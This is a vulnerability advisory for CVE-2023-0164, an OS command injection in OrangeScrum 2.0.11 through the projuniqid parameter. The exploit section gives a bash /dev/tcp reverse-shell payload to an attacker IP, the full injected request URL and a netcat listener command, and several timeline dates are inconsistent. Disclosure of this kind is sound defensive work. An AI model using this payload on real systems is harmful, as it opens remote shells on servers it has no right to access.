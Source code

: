 ```yaml
---
slug: advisories/queen/
title: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
authors: Carlos Bello
writer: cbello
codename: queen
product: OrangeScrum 2.0.11
date: 2023-01-16 12:00 COT
cveid: CVE-2023-0164
severity: 9.9
description: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - OS Command Injection via projuniqid |
| **Code name**         | [Queen](https://en.wikipedia.org/wiki/Queen_(band))      |
| **Product**           | OrangeScrum                                              |
| **Affected versions** | 2.0.11                                                   |
| **State**             | Public                                                   |
| **Release Date**      | 2023-01-16                                               |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | OS Command Injection                                                                                   |
| **Rule**              | [404. OS Command Injection](https://docs.fluidattacks.com/criteria/vulnerabilities/404)                |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.9                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0164)                          |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
execute arbitrary commands on the server. This is possible because the
application injects an attacker-controlled parameter into a system
function.

## Vulnerability

This vulnerability occurs because the application injects an attacker-controlled
parameter into a system function.

### Exploit

To exploit this vulnerability, we just need to send the malicious command we want
the server to execute through the projuniqid parameter using the `$()` syntax.

```bash
$(bash -i+>& /dev/tcp/67.205.165.158/3000 0>&1)
```

```txt
https://retr02332bughunter.orangescrum.com/log_times/download_pdf_timelog?projuniqid=$(bash+-i+>%26+/dev/tcp/67.205.165.158/3000+0>%261)&usrid=&date=&strddt=&enddt=&dt_format=d/m/y&checkedFields=date,usr_name,task_no,task_title,hours,description,start,end,break,billable
```

Thus, we will only have to execute the command `nc -lvp 3000` on the attacker's malicious
server to receive the reverse shell from the victim server.

## Evidence of exploitation

![vulnerability-code-orangescrum](https://user-images.githubusercontent.com/51862990/211672912-1eb574f6-20bb-475d-8303-f443ba156163.png)

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/211672802-e1fd6b44-1f5a-414f-8f27-5fbba9d40267.png)

<iframe src="https://www.veed.io/embed/ba4eb5e3-edfc-4d62-b2ad-638fef75099d"
width="835" height="505" frameborder="0" title="POC-OS-Command-Injection-OrangeScrum.mp4"
webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

![exploit-success-orangescrum](https://user-images.githubusercontent.com/51862990/211672619-a0006c75-3f39-4cfd-9791-af389d8a37f2.png)

## Our security policy

We have reserved the ID CVE-2023-0164 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-10"
  contacted="2022-01-10"
  replied="2022-01-10"
  confirmed="2022-01-10"
  patched=""
  disclosure="2023-01-16">
</time-lapse>
